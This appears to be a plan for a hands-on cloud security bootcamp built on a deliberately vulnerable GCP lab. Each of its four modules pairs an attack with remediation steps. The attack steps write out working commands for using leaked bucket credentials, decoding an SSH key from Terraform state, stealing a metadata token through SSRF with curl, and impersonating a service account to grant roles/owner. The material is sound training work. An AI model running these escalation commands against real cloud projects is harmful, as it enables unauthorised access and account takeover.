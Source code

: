 # AI Security Bootcamp Implementation Plan

Context: "CloudAI Labs" - A model hosting platform (like Hugging Face) with security flaws

## Implementation Details

### Code Structure
- Use terraform files for deployment
- Add simple Flask ML API

### Student Experience
- ~30 minutes per module
- Story → Attack → Fix
- Visual diagrams provided

### Simplifications
- Pre-configured gcloud
- Focus: Storage, Functions, IAM

# Modules

## Module 1: Enumeration and Discovery
**Attack**:
- Predictable bucket names: modeldata-{dev,prod}
  - Student given 'modeldata-dev' bucket to start
- Dev bucket has a 'bucket-service-account'.json
- The 'bucket-service-account' has access to 'modeldata-prod' bucket
- Hints:
  - Hint1: "what's in the bucket? any creds?"
  - Hint2: "what can those creds access? (insert use-creds-command here)
  - Hint3: "what if there was another bucket for prod?"

**Remediation**:
- Go to Cloud Storage → Select "cloudai-dev" bucket
  - Delete the service account json from the bucket
- Go to IAM, Create new Service Account 'dev-bucket-sa'
  - Student selects tf-preconfigured 'Dev Bucket Access' role

**Engagement**: "CloudAI's 'secret' GPT-5 benchmarks leaked. No insider needed - how?"


## Module 2: Environment Secrets & State Exposure
**Attack** (Adapt Module 2):
- `gsutil ls` newly discovered 'modeldata-prod' bucket
  - Discover + download Terraform Statefile
- Examine file, notice 'alice' user, and 'nat' IP
  - Also notice "SSH key" secret visible in encoded form
- Decode SSH Key, dump to local file
  - Use it to `ssh alice@nat-ip` to access deployed VM

**Remediation**:
Prevent decodable SSH Key
- Open GCP Console → Security → Secret Manager
- Click "Create Secret", name: "ssh-key"
- Paste the exposed SSH key, click "Create"

**Engagement**: "Your startup's LLM architecture leaked. Trace the breach through exposed deployment files."

## Module 3: Instance Metadata Service Exploitation  
**Attack** (Use Module 3):
- SSH into VM from Module 2: `ssh -i ~/.ssh/alice-key alice@<NAT-IP>`
- Check current service account: `gcloud auth list`
  - Notice default compute service account with full project access
- Discover cloud function bucket: `gsutil ls`
  - Find 'cloud-function-bucket-challenge4' in output
- Read function source: `gsutil cat gs://cloud-function-bucket-challenge4/main.py`
  - Notice SSRF vulnerability in monitoring endpoint
- Run pre-installed script: `./invoke_monitoring_function.sh`
  - Script shows function URL format
- Extract service account token via SSRF:
  ```
  curl -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function \
    -H "Authorization: bearer $(gcloud auth print-identity-token)" \
    -H "Content-Type: application/json" \
    -d '{"metadata": "token"}'
  ```
- Hints:
  - Hint1: "Check what service account the VM is using"
  - Hint2: "Look for cloud functions in storage buckets"
  - Hint3: "The monitoring function fetches URLs - what about metadata.google.internal?"

**Remediation**:
- Go to IAM & Admin → Service Accounts → Create
- Name: "model-api-vm", description: "Minimal VM account"
- Skip permissions for now → Create
- Compute Engine → VM instances → Click instance
- Edit → Service account → Select "model-api-vm"
- Save → Test: SSRF gets limited token

**Engagement**: "Inference costs exploded overnight. The model API is accessing internal resources."

## Module 4: Service Account Misconfigurations [Extension]
**Attack** (Use Challenge 5):
- Use token from Module 3: `export CLOUDSDK_AUTH_ACCESS_TOKEN=<function-token>`
- Check project permissions: `gcloud projects get-iam-policy $PROJECT_ID`
  - Notice monitoring-function@ has custom role
- List all service accounts: `gcloud iam service-accounts list`
  - Find terraform-pipeline@ with admin privileges
- Examine custom role: `gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID`
  - Has owner-like permissions including setIamPolicy
- Check terraform SA bindings: `gcloud iam service-accounts get-iam-policy terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com`
  - monitoring-function@ has Token Creator role!
- Impersonate to escalate privileges:
  ```
  gcloud projects add-iam-policy-binding $PROJECT_ID \
    --member=user:<your-email> --role=roles/owner \
    --impersonate-service-account terraform-pipeline@$PROJECT_ID.iam.gserviceaccount.com
  ```
- Verify escalation: `gcloud projects get-iam-policy $PROJECT_ID | grep -A2 <your-email>`
- Hints:
  - Hint1: "What other service accounts exist in the project?"
  - Hint2: "Check IAM bindings on the terraform service account"
  - Hint3: "Service Account Token Creator allows impersonation"

**Remediation**:
- Navigate to IAM & Admin → Service Accounts
- Find "monitoring-function@" account → Click name
- Go to "Permissions" tab → View all permissions
- Find "terraform-pipeline@" in the list
- Click pencil icon next to "Service Account Token Creator"
- Select "Remove" → Confirm removal
- Test: `gcloud iam service-accounts get-iam-policy terraform-pipeline@...`
  - Verify monitoring-function@ no longer listed

**Engagement**: "Ex-employee claims they deleted all models using just an API token. Investigate."

